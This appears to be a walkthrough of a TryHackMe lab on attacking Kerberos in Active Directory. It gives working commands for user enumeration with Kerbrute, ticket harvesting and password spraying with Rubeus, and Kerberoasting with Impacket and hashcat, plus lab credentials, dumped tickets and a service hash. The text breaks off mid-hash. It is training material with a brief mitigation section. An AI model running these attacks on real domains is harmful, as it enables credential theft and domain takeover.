# Attacking Kerberos

Learn how to abuse the Kerberos Ticket Granting Service inside of a Windows Domain Controller

# [Task 1] Introduction

This room will cover all of the basics of attacking Kerberos the windows ticket-granting service; we'll cover the following:

* Initial enumeration using tools like Kerbrute and Rubeus
* Kerberoasting
* AS-REP Roasting with Rubeus and Impacket
* Golden/Silver Ticket Attacks
* Pass the Ticket
* Skeleton key attacks using mimikatz

This room will be related to very real-world applications and will most likely not help with any CTFs however it will give you great starting knowledge of how to escalate your privileges to a domain admin by attacking Kerberos and allow you to take over and control a network.

It is recommended to have knowledge of general post-exploitation, active directory basics, and windows command line to be successful with this room.

**What is Kerberos?**

Kerberos is the default authentication service for Microsoft Windows domains. It is intended to be more "secure" than NTLM by using third party ticket authorization as well as stronger encryption. Even though NTLM has a lot more attack vectors to choose from Kerberos still has a handful of underlying vulnerabilities just like NTLM that we can use to our advantage.

**Common Terminology**

* **Ticket Granting Ticket (TGT)** - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
* **Key Distribution Center (KDC)** - The Key Distribution Center is a service for issuing TGTs and service tickets that consists of the Authentication Service and the Ticket Granting Service.
* **Authentication Service (AS)** - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets.
* **Ticket Granting Service (TGS)** - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain.
* **Service Principal Name (SPN)** - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
* **KDC Long Term Secret Key (KDC LT Key)** - The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.
* **Client Long Term Secret Key (Client LT Key)** - The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
* **Service Long Term Secret Key (Service LT Key)** - The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
* **Session Key** - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
* **Privilege Attribute Certificate (PAC)** - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

**AS-REQ w/ Pre-Authentication In Detail**

The AS-REQ step in Kerberos authentication starts when a user requests a TGT from the KDC. In order to validate the user and create a TGT for the user, the KDC must follow these exact steps. The first step is for the user to encrypt a timestamp NT hash and send it to the AS. The KDC attempts to decrypt the timestamp using the NT hash from the user, if successful the KDC will issue a TGT as well as a session key for the user.

**Ticket Granting Ticket Contents**

In order to understand how the service tickets get created and validated, we need to start with where the tickets come from; the TGT is provided by the user to the KDC, in return, the KDC validates the TGT and returns a service ticket.



**Service Ticket Contents**

To understand how Kerberos authentication works you first need to understand what these tickets contain and how they're validated. A service ticket contains two portions: the service provided portion and the user-provided portion. I'll break it down into what each portion contains.

* Service Portion: User Details, Session Key, Encrypts the ticket with the service account NTLM hash.
* User Portion: Validity Timestamp, Session Key, Encrypts with the TGT session key.



**Kerberos Authentication Overview**



1. **AS-REQ** - The client requests an Authentication Ticket or Ticket Granting Ticket (TGT).
2. **AS-REP** - The Key Distribution Center verifies the client and sends back an encrypted TGT.
3. **TGS-REQ** - The client sends the encrypted TGT to the Ticket Granting Server (TGS) with the Service Principal Name (SPN) of the service the client wants to access.
4. **TGS-REP** - The Key Distribution Center (KDC) verifies the TGT of the user and that the user has access to the service, then sends a valid session key for the service to the client.
5. **AP-REQ** - The client requests the service and sends the valid session key to prove the user has access.
6. **AP-REP** - The service grants access

**Kerberos Tickets Overview**

The main ticket that you will see is a ticket-granting ticket these can come in various forms such as a `.kirbi` for Rubeus `.ccache` for Impacket. The main ticket that you will see is a `.kirbi` ticket. A ticket is typically base64 encoded and can be used for various attacks. The ticket-granting ticket is only used with the KDC in order to get service tickets. Once you give the TGT the server then gets the User details, session key, and then encrypts the ticket with the service account NTLM hash. Your TGT then gives the encrypted timestamp, session key, and the encrypted TGT. The KDC will then authenticate the TGT and give back a service ticket for the requested service. A normal TGT will only work with that given service account that is connected to it however a KRBTGT allows you to get any service ticket that you want allowing you to access anything on the domain that you want.

**Attack Privilege Requirments**

* Kerbrute Enumeration - No domain access required 
* Pass the Ticket - Access as a user to the domain required
* Kerberoasting - Access as any user required
* AS-REP Roasting - Access as any user required
* Golden Ticket - Full domain compromise (domain admin) required 
* Silver Ticket - Service hash required 
* Skeleton Key - Full domain compromise (domain admin) required

## #1.1 - What does TGT stand for?

Answer: `Ticket Granting Ticket`

## #1.2 - What does SPN stand for?

Answer: `Service Principal Name`

## #1.3 - What does PAC stand for?

Answer: `Privilege Attribute Certificate`

## #1.4 - What two services make up the KDC?

Answer: `AS, TGS`

# [Task 2] Enumeration w/ Kerbrute

Kerbrute is a popular enumeration tool used to brute-force and enumerate valid active-directory users by abusing the Kerberos pre-authentication.

For more information on enumeration using Kerbrute check out the [Attacktive Directory room](https://tryhackme.com/room/attacktivedirectory) by Sq00ky.

You need to add the DNS domain name along with the machine IP to `/etc/hosts` inside of your attacker machine or these attacks will not work for you - `10.10.193.124  CONTROLLER.local`

**Abusing Pre-Authentication Overview**

By brute-forcing Kerberos pre-authentication, you do not trigger the account failed to log on event which can throw up red flags to blue teams. When brute-forcing through Kerberos you can brute-force by only sending a single UDP frame to the KDC allowing you to enumerate the users on the domain from a wordlist.

**Kerbrute Installation**

1. Download a precompiled binary for your OS - https://github.com/ropnop/kerbrute/releases
2. Rename `kerbrute_linux_amd64` to `kerbrute`
3. `chmod +x kerbrute` - make kerbrute executable

**Enumerating Users w/ Kerbrute**

Enumerating users allows you to know which user accounts are on the target domain and which accounts could potentially be used to access the network.

1. `cd` into the directory that you put Kerbrute
2. Download the wordlist to enumerate with [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt)
3. `./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt` - This will brute force user accounts from a domain controller using a supplied wordlist

Now enumerate on your own and find the rest of the users and more importantly service accounts.

## #2.1 - How many total users do we enumerate?

~~~
$ /data/src/kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/21/20 - Ronnie Flathers @ropnop

2020/06/21 22:46:59 >  Using KDC(s):
2020/06/21 22:46:59 >  	CONTROLLER.local:88

2020/06/21 22:46:59 >  [+] VALID USERNAME:	 admin1@CONTROLLER.local
2020/06/21 22:46:59 >  [+] VALID USERNAME:	 administrator@CONTROLLER.local
2020/06/21 22:46:59 >  [+] VALID USERNAME:	 admin2@CONTROLLER.local
2020/06/21 22:46:59 >  [+] VALID USERNAME:	 machine1@CONTROLLER.local
2020/06/21 22:46:59 >  [+] VALID USERNAME:	 machine2@CONTROLLER.local
2020/06/21 22:46:59 >  [+] VALID USERNAME:	 sqlservice@CONTROLLER.local
2020/06/21 22:46:59 >  [+] VALID USERNAME:	 httpservice@CONTROLLER.local
2020/06/21 22:46:59 >  [+] VALID USERNAME:	 user1@CONTROLLER.local
2020/06/21 22:46:59 >  [+] VALID USERNAME:	 user3@CONTROLLER.local
2020/06/21 22:46:59 >  [+] VALID USERNAME:	 user2@CONTROLLER.local
2020/06/21 22:46:59 >  Done! Tested 100 usernames (10 valid) in 0.717 seconds
~~~

Answer: `10`

## #2.2 - What is the SQL service account name?

Answer: `sqlservice`

## #2.3 - What is the second "machine" account name?

Answer: `machine2`

## #2.4 - What is the third "user" account name?

Answer: `user3`

# [Task 3] Harvesting & Brute-Forcing Tickets w/ Rubeus

To start this task you will need to RDP or SSH into the machine your credentials are -

* Username: `Administrator`
* Password: `P@$$W0rd`
* Domain: `controller.local`

Rubeus is a powerful tool for attacking Kerberos. Rubeus is an adaptation of the kekeo tool and developed by HarmJ0y the very well known active directory guru.

Rubeus has a wide variety of attacks and features that allow it to be a very versatile tool for attacking Kerberos. Just some of the many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting.

The tool has way too many attacks and features for me to cover all of them so I'll be covering only the ones I think are most crucial to understand how to attack Kerberos however I encourage you to research and learn more about Rubeus and its whole host of attacks and features [here](https://github.com/GhostPack/Rubeus).

Rubeus is already compiled and on the target machine.

**Harvesting Tickets w/ Rubeus**

Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds



**Brute-Forcing / Password-Spraying w/ Rubeus**

Rubeus can both brute force passwords as well as password spray user accounts. When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account. In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Due to the way IP addresses are handled in Rubeus this attack is not possible on the THM VM however, I encourage you to configure this on your own network.

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user 



Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.

## #3.1 - Which domain admin do we get a ticket for when harvesting tickets?

~~~
C:\Users\Administrator\Downloads>Rubeus.exe harvest /interval:30

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Harvesting (with auto-renewal)
[*] Monitoring every 30 seconds for new TGTs
[*] Displaying the working TGT cache every 30 seconds

[*] Refreshing TGT ticket cache (6/21/2020 1:56:42 PM)

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL
  StartTime             :  6/21/2020 1:24:35 PM
  EndTime               :  6/21/2020 11:24:35 PM
  RenewTill             :  6/28/2020 1:24:35 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFhDCCBYCgAwIBBaEDAgEWooIEeDCCBHRhggRwMIIEbKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQoMIIEJKADAgESoQMCAQKiggQWBIIEErUTD4na1+dA0DcY1mqd5kwb2MuLxjMU8Bkj
    Jun2EUOsLUAHKIUpqKFfu6LG53/2ADZxw9EQGDL/48IMYB0yh0lT6f9JlMi9swu1Gvtml+z+uR2IF0FLLgXqtR2h/D7DL55ZdjRP
    u7Okfp/6MGEYVYMjtPtOlnqG1hXIDNbbuqLtkau3qIBT1zcHHOu2oFHErhnN+aXMYJKFpzW3UGhPFakwMn4dGrrX8VQV0vXYTote
    LgpCnovaIn5NlMKSKiW0gDk4tIUETT+rrnw9YYXYllANUmG9lNMA4TtiFv/ENeXNTEHYmPUlj8GQJ8F7435M+DhQ+L23vWo2gmPQ
    9oqFUDYutBcF4q27U36EhIt8SSqmOBQgw/NvOwsxUq5CbdjVQ9y3GN0q7+gCaHVG/AwhQxBOMDW5KFaXe+GTEhpPpntVWwXLdSmL
    +DWJG1GF7nTVOf30NUAb8aST34tRMAfHyntWclIv1LU8MKoHxFG2qYrG7UayiBSoHj/FgX/B6+MmG0p4moaJKXsGRo/rGySN0mwG
    1ug7RKy3uJdRbIIVO2J095JMgJn0iUXmjt1T66xX5eHo61uGqtLDCq0v0qaJtP2n7ZVPkZBriQCryTK95ppao/3lXW9wbomZ7mSz
    wHL/FMccdtiAD5m4Q+KKb+TZ2F2eRcwnb+RhoF6ugB0ngc1LPQ6BPkzeOYtwLYru4Skvgtvx3lbGtqHuz9Uy4A4/n+ZWcL91nZav
    1+S0cd1gMk+GZ6/28hEAHp2AhcDHxLImLggRkihCPJKMd2RqdCxc72T6DBYcRSNjkzVpr3BtBQBvFNcGJWabdmGwHTL1HlHuc3tB
    3QyX7lKDTzDd6o9axVOWmFXeNHiSDBMMf6toc6b8vW/k6uH5MjI4qjamDvuW/0Hv6haKrp32WtGifQu8dq7uw5axE374nZcFIYaZ
    oiBeYjhYHXKGXKssjrPmUuEYVDq5gYsvW6ig0vhEdB7VhrlVeuBjerH7NxVV0HwceTM/dU4WPtxFQvRsqJJeAORbhpXGV2sXpj+v
    blY+pTSdSHWcx8TRJG37EtL7ANlfRhtVHAjwF50YEyyU7Sy2JCX5mlMNz94khEfYA3VAo3nhCSwfHp159znguHjmOiSNCl3Ou/X1
    n/kNHSThcVdajgopRSMcaJlMjHgXwdX9Kp68t0kzwJ4xwrxLHU1j+q8emBtHmJ8TaIopksRay04S/YRIzJQ6NE5KN5QgCpypbaHW
    VDt2od3VWVdWXk18HfL5R9HmEnNl219jVifepYOg3Xnx7tqJUjCOM3osoaLhWBg/c+f5Abwl/bJkwtFYGZ0BO9/POjIRVEVIAdg+
    8v3ioqo3DHv8fLsqvU3g7KThVaoqcT6Bc9PN3yalEOdcvvz77T/S91GjgfcwgfSgAwIBAKKB7ASB6X2B5jCB46CB4DCB3TCB2qAr
    MCmgAwIBEqEiBCBlBmNJu8cV72j2iYNvz6Sys3qtuUbZwQ4gaO/ot6nPSaESGxBDT05UUk9MTEVSLkxPQ0FMohowGKADAgEBoREw
    DxsNQ09OVFJPTExFUi0xJKMHAwUAQOEAAKURGA8yMDIwMDYyMTIwMjQzNVqmERgPMjAyMDA2MjIwNjI0MzVapxEYDzIwMjAwNjI4
    MjAyNDM1WqgSGxBDT05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLkxPQ0FM

[REDACTED]

  User                  :  Administrator@CONTROLLER.LOCAL
  StartTime             :  6/21/2020 1:54:25 PM
  EndTime               :  6/21/2020 11:54:25 PM
  RenewTill             :  6/28/2020 1:54:25 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFjDCCBYigAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQwMIIELKADAgESoQMCAQKiggQeBIIEGiJ/ZyXfZJaO4lBDlSyH2I5KV9Xf5q5JXA07
    t7SJ8eY5yHUTJZBFBhIwgXih69s5b8f37YMbGqIvzrXxtjj/1tu9916rj9H8iGAl9wsVQqwlDNYK0oyac/ESoMdXpFyOy+zZ3hVw
    lKBMwK2KfOaEF8nQVv7hV1xZiPd7o1K+ejTuwNrPXBFHslMjgflQ2C1EI0bAStQ7PTvfaDedBo4CKfnI1QlnvaSroFamMMaGm8Lb
    jfw2mKkL16VrqlzMuTJSEt6joQ/OL4wRLKb8KqTgzopH07Uqbf2YwA/pX4lttNhFRySE9ma9FhwFdYBnWApDfu69WnCK/jFiZTyj
    D3qefxZ5O3Zh/+30LrTAKcaPSU/3emAcd3E1JR0pO6nd4F5DxzHPtyyYf1if1RY3oObEVGTCGv2G6aaD422FVPrlrTbwE2w57CJy
    3GMBIGU42RtWz+BcL0dNXMzjwNfivQVVQmT48wRluVHJBKV5FDYzeOuQuA/cYojtkFc5v4GocYNSFGkqITcyQTHLsF2fz7+8nI6f
    UDz/sSQx9osq0yOzT5HvyO0pBv2NEQUWGARLykN6MrXnm10mEGY4+2i/8Fum9ljCuvVEoh3FVXFQAWXoqNqTKMxk/IB5cR+vn2um
    Pa+ZrqASHT7u73KXLbeXWvGZdYHqmC/gxsHbnH+Q0ooTD4uLEvKr3JYDw6UIm92gq5qxEVrf0F3VI5cM1i3Xl0i/TQP6NRsfq4CZ
    qghddGpR5yvfmM+qHWy+l8HXkNLRuKA1DBC1BssmVPbuxdJf+mAsBNxU91X9WoJWtdYiwzY6WRSks+e89e+Z5IcJN0nep6uyKItO
    E/VSsNrQusjabxq811aHXGqgzpGExUWsDGDkWpBKXm8AK1IKHJgBG0o9WlqieTq99gwz/OylSCX98Lqn68foBFbTb/qABd4/abv2
    lzbYTvmK0H9DvyM6aO6VXNduhs9oOBT46zJKn8pEuRFN6AtVzMmr6IS6+PrLTVSNR8r/B2zmxmH2QhBLE69B6ecB6Xy2zqgkrl7V
    uTeVP5J8f8Vz4GT3+DBrDKlB/HbxUNjN5kE4k1SHXZXIHY8T5sF/D+mwpXo2sinl0njQK0eLEecjr3XiVGQKPtjh2Sv3DTW8UT9n
    Hq8nyrWqjZMgawl41RDoKvBm0wQG403R6IHQCgLjVF/qpZzF4R2tIC71M+O4cJA1Tf8Z4y4HTRcSUZs0/38Quuacq6EgceMihhuv
    1jCKVdaT1ZT6emytedj/bspL4G4VYLN1B8iXJ1pAgh7m0NyDDzdU5AAAPdetN2z4pucZ0QM3qqWeTXesoRcj/BzNBRq9U/6ZUHWy
    RoisOUTwnvgft1o678FBlCSkY2TC8xSFy+aLh5Az8/gDd7NdfjBn7rlSI13aVJ565qOB9zCB9KADAgEAooHsBIHpfYHmMIHjoIHg
    MIHdMIHaoCswKaADAgESoSIEIINji3mjuZSAsAvVc3k79bCFIdte0Ahc9Of99AjP2OuqoRIbEENPTlRST0xMRVIuTE9DQUyiGjAY
    oAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBA4QAApREYDzIwMjAwNjIxMjA1NDI1WqYRGA8yMDIwMDYyMjA2NTQyNVqnERgP
    MjAyMDA2MjgyMDU0MjVaqBIbEENPTlRST0xMRVIuTE9DQUypJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIuTE9DQUw=

[*] Ticket cache size: 4
[*] Sleeping until 6/21/2020 1:57:12 PM (30 seconds) for next display
~~~

Asnwer: `Administrator`

## #3.2 - Which domain controller do we get a ticket for when harvesting tickets?

Answer: `CONTROLLER-1`

# [Task 4] Kerberoasting w/ Rubeus & Impacket

In this task we'll be covering one of the most popular Kerberos attacks - Kerberoasting. Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.

I have already taken the time to put Rubeus on the machine for you, it is located in the downloads folder.

## Method 1 - Rubeus

**Kerberoasting w/ Rubeus**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users. Copy the hash onto your attacker machine and put it into a `.txt` file so we can crack it with hashcat. I have created a modified `rockyou` wordlist in order to speed up the process download it [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt).
3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

## Method 2 - Impacket

**Impacket Installation**

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1. `cd /opt` navigate to your preferred directory to save tools in 
2. download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19
3. `cd Impacket-0.9.19` navigate to the impacket directory
4. `pip install .` - this will install all needed dependencies

**Kerberoasting w/ Impacket**

1. `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located
2. `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.193.124 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

**What Can a Service Account do?**

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

## Mitigation - Defending the Forest

**Kerberoasting Mitigation**

* Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
* Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

## #4.1 - What is the HTTPService Password?

~~~
C:\Users\Administrator\Downloads>Rubeus.exe kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 2

[*] SamAccountName         : SQLService
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111
[*] PwdLastSet             : 5/25/2020 10:28:26 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.loca
                             l:30111*$C6FAF5D567DD76725C903D7655277260$3CF91371C0E3DD70CB96FDD32CCB28E47C2B98
                             76D203F2FB889BE198F432AD260DE8444910EA07F4B6449596BED52FF975BD7D05DDB786A9CF44B3
                             D2B307122FA57F6382F540CE2ECF040E2A54FD63369DC39C984CC38E797C623BEB9A23065469A56D
                             0CDD4FD7E6B4146A5CA2A3D6623C47F51DAC168A9EB01C585502414F0AFF4D31B00AB65E5B293AA3
                             A7B45DC18D9A2203102435D3402E47FC1961C31DCC38DE401A73B839DD0925FD4ACE9F0BA5BE4A8E
                             945C9F6F510CE0EC4F70434380A2654A2F5731C9685D7DAF7459C9B4857707F924E0FA492A714B83
                             35174C821173CBBC19DC43136BBE3E699C4CDAA943C09BEA22A1E7C726154D5D9F9AD28AD076F37E
                             C25168E4A38EE26F0D68114FC037F9B8C947E8913752E673B4EA6D99D8C6DB398B413302025AFB22
                             8EF41AA24619FA4B2EAC81602BBB3E6686C83CDE3AC39CEF7E8F09E72CDB72685D829381BF874843
                             3A1A143DBCDC50081BB6BA8154705F71DD118C3E1ACEDEF79293D5555DAAD23CA775574ACEF3D598
                             97DCAA07749E29A0FDDA4AA88B35F92AD557AA37DD85826ED3B9F0E2BE8B11E543F9E7DBA9981559
                             66D27AA33B250092782EA1773BFC27BC8BC63DF7EE387991AB860A9550D0A6834497C6B21016F95F
                             9C823CD177EB62CFAEF0C32EF3A434F57EF0AFEA7EE7F600A8E6D364BD62826545BBAEB83431A753
                             446F2557A12F93283E5394ED74C53C1EF0C0A0D00FD898BD9CD05FE6B1B10A086D37253951190DB4
                             07E77634B9E82EF13FF41261A20D044100F3804BFD29151FD7A42977665600A8A84C34823177460A
                             12AEF2D52706FFC10238E54C931FA3DC128F78AF400F41AAA158AFE499784C45ECDC9C8579B73187
                             B124328F6E79A8B99F90227448402C6C15229E46C11ECCE2D3E89C803D23D6753EDCBCC2C0E6C917
                             8AF78EAA5FC377F8B1FEC3959B2E99B0A34C4A5CED02C7C5D1D1481330911CBD96905AFB561084D4
                             DBA283D1928903A55448290C9BD318323CA24E9B89771B016227BE803B94E98A20B13FDE9310F09B
                             1E630AD17DBA18953946D656C4A50FF3135C68CE9F401CD44F08ABC7C7452A88501A9A26F643E797
